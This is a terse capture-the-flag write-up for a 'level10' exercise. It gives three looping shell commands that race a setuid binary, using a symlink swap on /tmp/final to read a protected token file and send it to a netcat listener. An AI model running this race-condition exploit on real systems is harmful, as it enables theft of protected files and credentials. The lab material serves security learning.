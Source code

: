 First ssh terminal: `while true; do (./level10 /tmp/final 10.11.200.134); done`

Second ssh terminal: `while true; do nc -l 6969 ;done`

`readlink -f token` to know true token path

third ssh terminal: `while true; do rm -rf /tmp/final; touch /tmp/final; ln -sfn /home/user/level10/token /tmp/final; done`
